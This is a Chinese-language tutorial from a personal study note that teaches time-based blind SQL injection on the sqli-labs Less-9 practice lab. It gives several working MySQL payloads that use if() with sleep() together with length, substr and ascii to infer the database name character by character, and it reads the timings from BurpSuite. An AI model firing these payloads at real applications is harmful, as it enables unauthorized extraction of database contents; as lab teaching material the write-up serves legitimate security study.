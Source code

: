 ```
if (length(database())>1,sleep(5),1)
```

上述语句的意思是，如果数据库库名的长度大于1，则MySQL查询休眠5秒，否则查询1。
就以sql-labs第九关为例

http://192.168.1.30:83/sqli-labs-master/Less-9/?id=1
如下图所示，而查询1的结果，大约只有几十毫秒，根据BurpSuite中页面的时间，可以判断条件是否正确

```
?id=1'+and+if(length(database())>7,sleep(5),1)--+
```


如下图所示，页面响应的时间是7042毫秒，也就是7.042秒，表明页面成功执行了sleep(5),所以长度是大于7的。


我们尝试将判断数据库库名长度语句中的长度改为8。

```
?id=1'+and+if(length(database())>=8,sleep(5),1)--+
```


回显的时间明显延长，说明数据库的长度大于等于8


改成9试试，时间明显缩短，更加确切的说明数据库的长度为8.

得出数据库的长度后，我们开始查询数据库名的第一位字母。查询语句跟Boolean盲注的类似，使用substr函数，这是的语句应该改为：

```
?id=1'+and+if(substr(database(),1,1)='s',sleep(5),1)--+
```

可以看出，程序延迟了7.271秒才返回，说明数据库库名的第一个字母是s,以此类推即可得出完整的数据库名、表名、字段名和具体的数据。
手动注入

输入1后发现页面三秒后有响应也就是说长度为四

```
1 and if(length(database())=4,sleep(3),1)
```

![image-20240120164504481](E:\学习资料\网安\笔记\笔记截图\image-20240120164504481.png)

猜解数据库的名称

```mysql
1 and if(ascii(substr(database(),1,1))>110,sleep(3),1)
1 and if(ascii(substr(database(),1,1))=115,sleep(3),1)	ascii(s)=115

1 and if(ascii(substr(database(),2,1))>110,sleep(3),1)
1 and if(ascii(substr(database(),2,1))=113,sleep(3),1)	ascii(q)=113

1 and if(ascii(substr(database(),3,1))>110,sleep(3),1)
1 and if(ascii(substr(database(),3,1))=108,sleep(3),1)	ascii(l)=108

1 and if(ascii(substr(database(),4,1))>110,sleep(3),1)
1 and if(ascii(substr(database(),4,1))=105,sleep(3),1)	ascii(i)=105

......
不断调整ASCII码的范围逐渐得到数据库名称为sqli
```
